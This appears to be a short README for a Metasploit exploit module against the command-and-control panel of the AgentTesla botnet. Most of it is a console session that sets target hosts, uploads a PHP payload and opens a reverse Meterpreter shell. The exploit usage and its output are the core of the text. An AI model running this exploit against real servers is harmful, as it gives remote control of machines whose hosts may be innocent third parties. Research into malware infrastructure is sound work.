 # AgentTesla RCE
AgentTesla botnet C&amp;C RCE exploit.


***WARNING*** This will only work if hosting provider allows the PHP `exec` function

```
msf5 exploit(agent_tesla_rce) > set vhost example.com
vhost => example.com
msf5 exploit(agent_tesla_rce) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf5 exploit(agent_tesla_rce) > run

[*] Started reverse TCP handler on 0.0.0.0:4444 
[+] Payload uploaded as .rzTJ.php
[*] Sending stage (38247 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (0.0.0.0:4444 -> 2.2.2.2:34550) at 2019-08-13 22:45:10 +0200
[+] Payload successfully triggered !

meterpreter > 
```
